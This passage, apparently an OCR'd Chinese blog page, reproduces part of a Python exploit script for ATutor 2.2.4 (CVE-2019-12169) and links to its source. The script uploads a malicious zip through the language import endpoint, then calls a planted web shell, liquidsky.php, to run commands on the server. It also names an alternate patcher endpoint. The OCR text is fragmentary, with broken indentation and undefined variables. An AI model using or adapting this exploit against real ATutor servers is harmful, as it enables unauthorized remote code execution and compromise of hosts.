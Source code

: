     # url settings, duh
         url = "http://" + target + "/ATutor/mods/_core/languages/language_import.php"

    # A similar method works for the "patcher" function.
        # url = "http://" + target + "/ATutor/mods/_standard/patcher/index_admin.php"

    # This is "the" request to send the zip     
         request = s.post(url, headers=headers, data=data, verify=False)
         print "[+] Sent the zip ......"
         time.sleep(1)

    # Grab shell dude!
         print "[!] *** Remote Code Execution ***"
         request = s.post(shell, verify=False)
         print "[x] http://" + target + "/liquidsky.php?language=" + commands

    # Note be sure to clean up: c:\xampp\htdocs\liquidsky.php and or /var/www/html/liquidsky.php

         if "Administration" in res:
             return True
         return False 
     
    def main():
         if we_can_get_jiggy_with_the_pass():
             print ""
             print "[+] Success! we were able to login!"
             print ""
             print "  ^_~  got r00t?   - [liquidsky 2019]"
         else:         print "[-] failure!" 
     
    if __name__ == "__main__":
         main()

参考链接
--------

> https://kumamon.fun/ATutor-CVE-2019-12169/
>
> https://github.com/fuzzlove/ATutor-2.2.4-Language-Exploit
